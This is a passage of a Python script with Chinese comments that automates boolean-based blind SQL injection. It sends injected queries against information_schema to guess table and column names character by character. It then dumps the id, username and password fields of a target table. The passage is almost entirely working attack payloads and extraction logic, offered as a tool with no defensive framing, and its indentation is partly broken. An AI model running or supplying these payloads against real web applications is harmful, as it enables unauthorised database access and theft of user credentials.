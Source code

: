 				break
	print("\n[+]%s库下的%s张表：%s\n"%(db_name,tb_piece,table_list))
	column_num(table_list,db_name)#进行下一步，猜解每张表的字段数

	def column_num(table_list,db_name):
	print("[-]开始猜解每张表的字段数：.......")
	column_num_list=[]
	for i in table_list:
		for j in range(30):#每张表的字段数量，合理范围即可
			column_payload=url+"' and %d=(select count(column_name) from information_schema.columns where table_name='%s')--+"%(j,i)
			r=requests.get(column_payload)
			if str in r.text:
				column_num=j
				column_num_list.append(column_num)#把所有表的字段，依次放入这个列表当中
				print("[+]%s表\t%s个字段"%(i,column_num))
				break
	print("\n[+]表对应的字段数：%s\n"%column_num_list)
	column_name(table_list,column_num_list,db_name)#进行下一步，猜解每张表的字段名

	def column_name(table_list,column_num_list,db_name):
	print("[-]开始猜解每张表的字段名.......")
	column_length=[]
	str_list=ascii_str()
	column_name_list=[]
	for t in range(len(table_list)):#t在这里代表每张表的列表索引位置
		print("\n[+]%s表的字段："%table_list[t])
		for i in range(column_num_list[t]):#i表示每张表的字段数量
			column_name=''
			for j in range(1,21):#j表示每个字段的长度
				column_name_length=url+"' and %d=(select length(column_name) from information_schema.columns where table_name='%s' limit %d,1)--+"%(j-1,table_list[t],i)
				r=requests.get(column_name_length)
				if str in r.text:
					column_length.append(j)
					break
				for k in str_list:#k表示我们猜解的字符字典
					column_payload=url+"' and ord(mid((select column_name from information_schema.columns where table_name='%s' limit %d,1),%d,1))=%d--+"%(table_list[t],i,j,ord(k))
					r=requests.get(column_payload)
					if str in r.text:
						column_name+=k
			print('[+]：%s'%column_name)
			column_name_list.append(column_name)
	#print(column_name_list)#输出所有表中的字段名到一个列表中
	dump_data(table_list,column_name_list,db_name)#进行最后一步，输出指定字段的数据

	def dump_data(table_list,column_name_list,db_name):
	print("\n[-]对%s表的%s字段进行爆破.......\n"%(table_list[3],column_name_list[9:12]))
	str_list=ascii_str()
	for i in column_name_list[9:12]:#id,username,password字段
		for j in range(101):#j表示有多少条数据，合理范围即可
			data_num_payload=url+"' and (select count(%s) from %s.%s)=%d--+"%(i,db_name,table_list[3],j)
			r=requests.get(data_num_payload)
			if str in r.text:
				data_num=j
				break
		print("\n[+]%s表中的%s字段有以下%s条数据："%(table_list[3],i,data_num))
		for k in range(data_num):
			data_len=0
			dump_data=''
			for l in range(1,21):#l表示每条数据的长度，合理范围即可
				data_len_payload=url+"' and ascii(substr((select %s from %s.%s limit %d,1),%d,1))--+"%(i,db_name,table_list[3],k,l)
				r=requests.get(data_len_payload)